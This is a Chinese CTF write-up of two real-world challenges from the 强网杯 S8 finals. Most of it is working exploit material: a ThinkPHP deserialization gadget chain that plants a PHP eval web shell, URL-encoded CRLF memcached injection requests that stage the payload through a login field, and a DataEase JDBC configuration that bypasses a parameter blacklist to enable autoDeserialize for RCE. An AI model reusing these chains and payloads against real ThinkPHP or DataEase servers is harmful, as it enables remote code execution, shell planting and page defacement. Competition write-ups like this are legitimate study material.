



# 强网杯S8决赛RW赛道-先知社区

> **来源**: https://xz.aliyun.com/news/16044  
> **文章ID**: 16044

---

## TS++

是去年的thinkshopping改了一下放上来的，但是之前的做法已经被waf掉了，这次的做法是利用上次的注入，将memcached中注入我们的序列化payload，在验证password的时候会反序列化缓存中的数据，即可RCE。下面简单跟一下流程



我们跟进这里的find函数，具体的注入流程可以看去年thinkshopping的分析博客：<https://blog.csdn.net/GKD2019/article/details/135183928>

但是在实际测试过程中发现，这里注入的长度是有限制的，每次只能注入190-200之间个字符，所以我们需要多次的将payload写入到缓存当中，这里先给出反序列化的链子

```
<?php

namespace think\process\pipes {
    class Windows
    {
        private $files = [];
        public function __construct($files)
        {
            $this->files = [$files]; //$file => /think/Model的子类new Pivot();Model是抽象类
        }
    }
}

namespace think {
    abstract class Model
    {
        protected $append = [];
        protected $error = null;
        public $parent;
        function __construct($output, $modelRelation)
        {
            $this->parent = $output; //$this->parent=> think\console\Output;
            $this->append = array("xxx" => "getError"); //调用getError 返回this->error
            $this->error = $modelRelation; // $this->error 要为relation类的子类，并且也是OnetoOne类的子类==>>HasOne
        }
    }
    class Request
    {
        protected $get = ['gml' => 'echo \'<?=eval($_POST[1]);\' >
/var/www/html/1.php'];
        protected $filter = ['system', 'a'];
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
        function __construct($output, $modelRelation)
        {
            parent::__construct($output, $modelRelation);
        }
    }
}

namespace think\model\relation {
    class HasOne extends OneToOne {}
    abstract class OneToOne
    {
        protected $selfRelation;
        protected $bindAttr = [];
        protected $query;
        function __construct($query)
        {
            $this->selfRelation = 0;
            $this->query = $query; //$query指向Query
            $this->bindAttr = ['xxx']; // $value值，作为call函数引用的第二变量
        }
    }
}

namespace think\db {
    class Query
    {
        protected $model;
        function __construct($model)
        {
            $this->model = $model; //$this->model=> think\console\Output;
        }
    }
}

namespace think\console {

    use think\session\driver\Memcached;

    class Output
    {
        private $handle;
        protected $styles;
        function __construct()
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcached(); //$handle->think\session\driver\Memcached
        }
    }
}

namespace think\session\driver {

    use think\cache\driver\Memcache;

    class Memcached
    {
        protected $handler;
        protected $config = [
            'session_name' => '//',
            'expire' => '1'
        ];
        function __construct()
        {
            $this->handler = new Memcache();
        }
    }
}

namespace think\cache\driver {

    use think\Request;

    class Memcache
    {
        protected $handler;
        protected $tag = 1;
        protected $options = ['prefix' => 'gml/'];
        function __construct()
        {
            $this->handler = new Request();
        }
    }
}

namespace {
    $Output = new think\console\Output();
    $model = new think\db\Query($Output);
    $HasOne = new think\model\relation\HasOne($model);
    $window = new think\process\pipes\Windows(new think\model\Pivot($Output, $HasOne));
    $c = array($window);
    echo urlencode(serialize($c));
    echo "<br>";
    echo strlen(serialize($c));
}

```

剩下的就是要将序列化数据注入到memcached缓存数据中，这里需要注意的是，我们开始注入的类型得是4（数组类型），如果不是数组的话在后面反序列化的时候会在password的位置报错，所以我们开始set的时候要设置好数据类型，在后面append追加的时候也要将数据类型设置为4（数组），最终所有的注入数据如下

```
username=2%00%0D%0Aset%20think%3Ashop.admin%7C8%204%20500%20179%0D%0Aa%3A1%3A%7Bi%3A0%3BO%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00&password=admin2

username=2%00%0D%0Aappend%20think%3Ashop.admin%7C8%204%20500%20179%0D%0A%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bi%3A0%3Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think&password=admin2

username=2%00%0D%0Aappend%20think%3Ashop.admin%7C8%204%20500%20179%0D%0A%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A27%3A%22think%5Ccache%5Cdriver%5CMemcache%22%3A3%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A13%3A%22th&password=admin2

username=2%00%0D%0Aappend%20think%3Ashop.admin%7C8%204%20500%20179%0D%0Aink%5CRequest%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00get%22%3Ba%3A1%3A%7Bs%3A3%3A%22gml%22%3Bs%3A49%3A%22echo+%27%3C%3F%3Deval%28%24_POST%5B1%5D%29%3B%27+%3E++%2Fvar%2Fwww%2Fhtml%2F1.php%22%3B%7Ds%3A9%3A%22%00%2A%00filter%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3Bi%3A1%3Bs%3A1%3A%22a%22%3B%7D%7Ds%3A6%3A%22%00%2A%00tag%22%3Bi%3A1%3Bs%3A10%3A%22%00%2A&password=admin2

username=2%00%0D%0Aappend%20think%3Ashop.admin%7C8%204%20500%20179%0D%0A%00options%22%3Ba%3A1%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A4%3A%22gml%2F%22%3B%7D%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A12%3A%22session_name%22%3Bs%3A2%3A%22%2F%2F%22%3Bs%3A6%3A%22expire%22%3Bs%3A1%3A%221%22%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3Br%3A12%3B%7D%7D%7D%7D&password=admin2
```

我这里注入的时候使用的用户名是8，所以我们后续就利用下面这个用户登录即可触发反序列化，写入shell，剩下的就是蚁剑连接替换页面即可

```
8/admin2
```

## D-E

这里给了一个框架可以利用弱口令直接登录

登录之后提示要修改密码，但这都无关紧要，框架在后台位置存在一些数据库连接操作，很容易想到jdbc反序列化，所以就可以进行一些尝试。  
在这里可以选择mysql并进行一些数据库配置，抓包看一下admin/dataease



在这里可以选择mysql并进行一些数据库配置，抓包看一下



在这里我们可以设置数据库连接的额外参数，但是发包之后会发现提示参数不合法，但是仔细观察就可以发现参数黑名单就在请求包里，所以我们直接把黑名单扬了即可绕过waf，最终configuration参数的值如下

```
"configuration":"
{\"driver\":\"com.mysql.jdbc.Driver\",\"extraParams\":\"autoReconnect=false&useUnicode=true&characterEncoding=UTF-8&characterSetResults=UTF-
8&zeroDateTimeBehavior=convertToNull&useSSL=false&allowPublicKeyRetrieval=true&connectionCollation=utf8mb4_general_ci&autoDeserialize=true&maxAllowedPacket=655360&detectCustomCollations=true&autoDeserialize=true&detectCustomCollations=true\",\"illegalParameters\":[\"123\"],\"host\":\"192.168.144.100\",\"port\":3306,\"username\":\"root\",\"password\":\"Password123@mysql\",\"dataBase\":\"dataease\",\"dataSourceType\":\"jdbc\",\"customDriver\":\"default\",\"authMethod\":\"passwd\",\"initialPoolSize\":5,\"minPoolSize\":5,\"maxPoolSize\":50,\"queryTimeout\":30}"
```

挑战的最终目的是覆盖一个html，我这里开始是rce了，所以挑战的时候获取的shell一连就断，导致无法覆盖页面，所以后续直接在反序列化的时候命令执行覆盖页面即可。直接打jdbc attack，链子打jackson的就行。
